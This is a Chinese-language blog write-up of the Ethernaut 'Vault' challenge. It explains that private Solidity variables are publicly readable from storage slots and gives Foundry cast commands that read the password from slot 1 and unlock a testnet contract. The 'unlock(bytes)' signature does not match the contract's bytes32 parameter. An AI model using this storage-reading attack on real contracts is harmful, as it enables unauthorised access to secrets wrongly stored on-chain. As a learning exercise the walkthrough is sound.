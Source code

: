# Foundry 通关 Ethernaut（7）— Valut

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

解锁 vault

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. 一个公共状态变量 bool 类型的 **locked** ，一个 **private** 的状态变量 bytes32 类型 **password**
2. **constructor：** 将 **locked** 设为 **true，password** 设为指定的数据
3. **unlock**: 输入对应的 _**password，** 与 **password** 相等则解锁， **locked** 设为 **false**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

## 思路

这个合约的目标，是解锁，使 locked 等于 false，通过合约逻辑可知只有输入的 密码和预先设置的密码相等才能解锁，那么就需要想办法得到这个密码值

区块链的特性就是数据是透明的，对于 Soldity 来说，private 变量实际上更多的是逻辑上的 private，存储的插槽都是能查询获取的，我们先来看 Solidity 中状态变量的存储方式，完整的可以参考后续我整理出的 blog，目前只需要知道以下要点：

1. 合约状态变量转为16进制后相当于存储在一个长度为2的256次方的数组中，每32字节空间相当于一个插槽，从0开始计数，每个插槽初始化为 0（最终存储只有不为0的插槽会存）

![image-20240908224226178](../pict/image-20240908224226178.png)

1. 每个变量根据类型具有不同的内存大小，根据定义顺序紧凑存储，直到占满32字节
2. 对于复杂数据类型，定义顺序的插槽可能只存储长度，或者对应的插槽号，值数据实际存储在经过运算的（例如keccack（插槽号））的插槽中，然后连续存储知道存储所有值

那么，接下来，我们需要知道这个 _password 存在哪个插槽查看即可

```solidity
    bool public locked;
    bytes32 private password;
```

合约只有两个状态变量

1. bool 值长度为 1 个字节，bytes32 长度为32 个字节
2. bool 值 locked 首先存入 slot0，由于一个插槽存储32字节， locked +bytes32 = 33 个字节，根据紧凑存储原则 slot0 存储不了，因此 password 存入 slot1

## foundry 复现

### 1. 查询合约实例数据

1. 插槽 1 对应的密码数据

   ```solidity
   cast storage --rpc-url $Sepolia_RPC_URL [contractAddress] 1
   ```

   ![image-20240908224511009](../pict/image-20240908224511009.png)

2. 查询攻击前状态变量 locked 值，由于是 bool 值，我们可以知道他是 true

   ```solidity
   cast call [contractAddress] "locked()" --rpc-url $Sepolia_RPC_URL 
   ```

   ![image-20240908224543779](../pict/image-20240908224543779.png)

### 2. 函数调用

1. 使用查询到的密码值调用 unlock 函数

   ```solidity
   cast send [contractAddress] "unlock(bytes)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --rpc-url $Sepolia_RPC_URL --private-key $PRIVATE_KEY
   ```

   ![image-20240908224651949](../pict/image-20240908224651949.png)

2. 查询攻击后状态变量 locked 值，由于是 bool 值，我们可以知道他成功的变成了 false ，解锁成功！！！

   ```solidity
   cast call [contractAddress] "locked()" --rpc-url $Sepolia_RPC_URL 
   ```

   ![image-20240908224736965](../pict/image-20240908224736965.png)
